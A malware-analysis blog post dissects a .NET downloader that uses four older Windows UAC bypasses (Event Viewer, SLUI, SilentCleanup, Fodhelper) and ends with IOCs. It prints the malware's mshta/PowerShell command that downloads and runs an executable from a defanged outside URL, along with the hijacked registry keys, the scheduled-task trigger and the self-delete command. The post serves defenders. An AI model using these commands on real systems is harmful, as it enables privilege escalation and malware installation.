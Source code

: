 ```yaml
---
layout: post
title: "UAC Bypass"
date: 2022-06-29 01:20:00 -0000
categories: UACbypass
---
```


## Introduction

In this post, I highlight old UAC bypasss techniques that are still in use. Although the bypass techniques implements in the analyzed sample are older and known, attempts are still being made to exploit them. As a result, defenders should be made aware of these on-going threats. 

I ran across this simple .NET downloader I'm naming *Adan Downloader* based on it's project path. The malware implements UAC bypass techniques in order to execute a Powershell download command proxied through mshta.exe (https://attack.mitre.org/techniques/T1218/005/).

The UAC bypass techniques implemented are (https://attack.mitre.org/techniques/T1548/002/):
* UAC Bypass via Event Viewer
* UAC Bypass via Slui
* UAC Bypass via SilentCleanup Scheduled Task
* UAC Bypass via Fodhelper

### Analysis:

<table>
    <thead>
        <tr>
            <th colspan=2>Adan Downloader</th>
        </tr>
    </thead>
    <tbody>
        <tr>
            <td>Filename</td>
            <td>Stub.exe</td>
        </tr>
        <tr>
            <td>File Type</td>
            <td>.NET Binary</td>
        </tr>
        <tr>
            <td>MD5</td>
            <td>47E16AF98E41C83EB2F07A2D29CA8AF9</td>
        </tr>
        <tr>
            <td>SHA1</td>
            <td>4F5161BA956ECB4A453893EB3FC34C1313C6C701</td>
        </tr>
        <tr>
            <td>SHA256</td>
            <td>72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</td>
        </tr>
        <tr>
            <td>PDB</td>
            <td>C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb</td>
        </tr>
        <tr>
            <td>VT</td>
            <td> 
                <a href="https://www.virustotal.com/gui/file/72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534/relations)">72C9919F885DD2A6F4491E5BC227224D6A68E09AF553AD6CB21617FE2BC56534</a>
            </td>
        </tr>
    </tbody>
</table>

This downloader attempts to bypass User Account Control (UAC) to download unwanted files to a system. Upon execution, it conducts the following activity:
 
Creates a payload objects that contains the URLS and command line arguments for the downloaded file:
```
hxxp://source1[.]kapetownlink[.]com/installer.exe - Args: /qn CAMPAIGN="1640"
hxxps://setup[.]maskvpn[.]cc/g[.]asp?id=151 - Args: /silent /subid=603
```
    
For each payload URL, it constructs the following command to download additional files from the download URL to **%ProgramData%\<random_string>.exe**.

<b>mshta command</b>
```powershell
@"mshta vbscript:(CreateObject(""Wscript.Shell"")).Run(
""cmd /c powershell -Command """"(New-Object System.Net.WebClient).
DownloadFile('http://source1[.]kapetownlink[.]com/installer.exe', 
(Join-Path -Path $env:ProgramData -ChildPath '5OTP8CZoq3MomB2GxUYrHB8U.exe'))"""" 
& C:\ProgramData\5OTP8CZoq3MomB2GxUYrHB8U.exe /qn CAMPAIGN=""""1640"""""",0)
(window.close)"
```

The command proxies Powershell execution through the mshta utility. This utility normally executes Microsoft HTML Applications (HTA) files. The utility is known as a living off the land binary (LOLBIN) since it's native to the Windows OS. It's a signed tool that can be used to bypass a system's security measures.

After constructing the command, the downloader executes a function named *UACBypass.AutoBypass()*. The function starts by obtaining the Windows product name. Depending on the name, the downloader utilizes old techniques to bypass UAC security measures.

### UAC Bypass Techniques

#### Windows 7: UAC Bypass via Event Viewer
    
If the product name starts with "Windows 7", the downloader abuses eventvwr.exe by hijacking the `HKCR\mscfile\shell\open\command` registry key to bypass UAC.

The downloader creates the registry key `HKCU\Software\Classes\mscfile\shell\open\command` and then sets the command value to the mshta command. Eventvwr is then started.

The technique works in part because of the relationship between the HKEY_CLASSES_ROOT (HKCR) and HKEY_CURRENT_USER (HKCU) registry keys. When `HKCU\Software\Classes\mscfile\shell\open\command` is created, a entry is also created in `HKCR\mscfile\shell\open\command`. The newly-created entry overwrites the mmc.exe entry that is normally there.
 
When eventvwr.exe is started, it reads `HKCR\mscfile\shell\open\command` to launce mmc.exe, however, since the HKCR key has been hijacked via the HKCU key, the mshta command is executed.

#### Windows 8: UAC Bypass via SLUI

If the product name starts with "Windows 8", UAC bypass is attempted by hijacking the `HKCR\Software\Classes\exefile\shell\open\command` registry key. 

The key `HKCU\Software\Classes\exefile\shell\open\command\` is created and the command is set to the mshta command. As explained previously, a entry is also created in the corresponding HKCR `\Software\Classes\exefile\shell\open\command` key. An additional value DelegateExecute is also created but the value is empty.

Slui.exe, an auto-elevated binary, is then executed with elevated privileges and executes the mshta command. 

#### Other OS: UAC Bypass via SilentCleanup Scheduled Task

When the OS is determined to be other than Windows 7/8, the downloader reads the registry key `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\ConsentPromptBehaviorAdmin`.

This key contains a UAC Group Policy setting that indicates whether a user is prompted for consent to continue with an operation. 

The malware checks for a value of 2. The explanation for this value is [here](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gpsb/341747f5-6b5d-4d30-85fc-fa1cc04038d4).

If the key is set to 2, the downloader creates the key `HKCU\Environment\windir` and sets it value to the download command with "CleanReg &&" appended to the end. The malware then proceeds to start the *SilentCleanup* scheduled task.

*SilentCleanup* is native to Windows and is used to launch a silent auto disk cleanup when the system is running low on disk space.

The user's environment variables are stored in the `HKCU\Environment\` registry key. The malware adds the mshta command as the environment variable **windir**. As a result, when the *SilentCleanup* task is executed, the mshta command is executed.

#### UAC Bypass via Fodhelper

The final UAC bypass technique implemented by the downloader involves *fodhelper*. *Fodhelper.exe* is used by Windows to manage optional features. During execution, it looks for the registry keys:
    `HKCU\Software\Classes\ms-settings` however, it doesn't normally exist by default.

The downloader creates the key `HKCU\Software\Classes\ms-settings\shell\open\command` and sets the value to the mshta command. As with the previous command, DelegateExecute is created but the value is empty.

*Fodhelper.exe* is then executed.

#### Cleanup Activity

The downloader cleans up after itself by deleting the UAC Bypass registry key it created. Then it deletes itself with the command:
    `cmd.exe /C choice /C Y /N /D Y /T 1 & Del <filename>`.

### IOCs

<b>Adan Downloader Hashes</b>
```
72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
```

<b>Project Path</b>

```
C:\Users\Thede\source\repos\Adan\Loader v1\obj\x64\Release\Stub.pdb
```

<b>UAC Bypass Registry Keys</b>
```
Fodhelper, HKCR|HKCU\Software\Classes\ms-settings\shell\open\command
SLUI, HKCU\Software\Classes\exefile\shell\open\command
Eventvwr, HKCU\Software\Classes\mscfile\shell\open\command
```

<b>SilentCleanup UAC Bypass Scheduled Task</b>
```
schtasks.exe /Run /TN \Microsoft\Windows\DiskCleanup\SilentCleanup /I
```

<b>Download URLs</b>

```
d5433a75ff122cf26115250a4131738972e4abd8e60ec336eab77c3a9ba29e21
de2477f5fe8ca28785e225b209f41ce0678c9f5ba0e6f0fcc4cbb520d53151b5
    hxxps://source1.boys4dayz[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
    hxxps://footerquotes.b-cdn[.]net/fq.exe

72c9919f885dd2a6f4491e5bc227224d6a68e09af553ad6cb21617fe2bc56534
    hxxp://source1.kapetownlink[.]com/installer.exe
    hxxps://setup.maskvpn.cc/g[.]asp?id=151
```